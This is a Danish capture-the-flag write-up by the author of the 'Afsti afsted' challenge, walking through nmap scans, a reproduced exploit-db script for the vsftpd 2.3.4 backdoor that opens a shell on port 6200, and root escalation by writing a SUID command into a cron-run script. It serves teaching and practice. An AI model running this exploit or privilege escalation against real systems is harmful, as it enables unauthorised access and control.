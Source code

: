 ```yaml
---
layout: post
title:  "DDC 2022 'afstiafsted' Writeup"
date:   2022-05-07 16:17:42 +0200
categories: writeups
---
```

# Afsti afsted
Dette er mit writeup for Afsti afsted, en challenge som jeg havde til hensigt skulle være nem, men endnu engang i år kom jeg til at fejlvurdere hvad der er `nemt` og hver der nok er nærmere `medium-svært`. 

Det er ikke min hensigt at fucke med nogens opfattelse af hvad de kan, sorry for den dårlige sværhedsgrads-labeling :-(

(I dette writeup løser jeg opgaven fra en lokalt kørende container, derfor vil du se `localhost` i stedet for `afsti-afsted.hkn` på screenshots)

Ihvertfald er `Afsti Afsted` en `boot2root` challenge hvor hensigten er at udnytte en bagdør i `vsftpd 2.3.4` og privesc ved at skrive til et world writeable script som kører som root via `cron` hver minut.

Uanset hvilken opgave du laver, er der altid en god idé at starte med et nmap.

```bash
root@d993e6b1ec7c:/tmp# nmap 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 19:22 UTC
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
2100/tcp open  amiganetfs
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

Hvilket viser en eller anden port på `2100` åben, man kan ikke stole på at det er `amiganetfs` så lad os prøve at tjekke om vi kan finde ud af hvad det er:

```bash
root@d993e6b1ec7c:/tmp# nmap -sC -sV -p 2100 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 19:23 UTC
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT     STATE SERVICE VERSION
2100/tcp open  ftp     vsftpd 2.3.4
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    1 1000     1000         4096 May 04 18:41 pub
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 172.17.0.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.45 seconds
```

Ok sick nok, vi kan se at `vsftpd 2.3.4` kører. lad os lige prøve at hurtigt google den.




![vsftpd](vsftpdbackdoor.JPG)


ok det virker som om der er en bagdør i den her version, hvis vi læser lidt på nr 2 link, så kan vi se hvad det går ud på. Scriptet fra exploit-db ser således ud.

```python

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

Ok hvis vi læser det, så sender det bare strengen `nergal:)` som bruger og `pass` som password.

Dette åbner så en bagdør på port 6200 som vi bare kan forbinde til. Du ville kunne bruge scriptet fra ovenover hvis du ændrer porten fra `21` til `2100` 

Jeg valgte dog bare at gøre det manuelt


sry for at have sagt det her er nemt, det er min fejl :(

![vsftpd](ftpconnect.jpg)

Som du kan se på ovenstående screenshot så forbinder jeg bare med ovenstående info, og så netcatter jeg til port 6200 og har så bruger på maskinen.

Nu kan man køre nogle privesc scripts, jeg kan godt lide linpeas https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Hvilket viser der er et script `/opt/cleanlogs.sh` som vi har `write access` til..

Det lyder som et script der kører automatisk, lad os prøve at skrive til det.

```
echo "chmod u+s /bin/bash" > /opt/cleanlogs.sh
```
fordi vi kan bruge gtfobins https://gtfobins.github.io/gtfobins/bash/

og så vente lidt tid.

....

...

og så skrive `/bin/bash -p`

og vi kan finde flaget

![vsftpd](privesc2.jpg)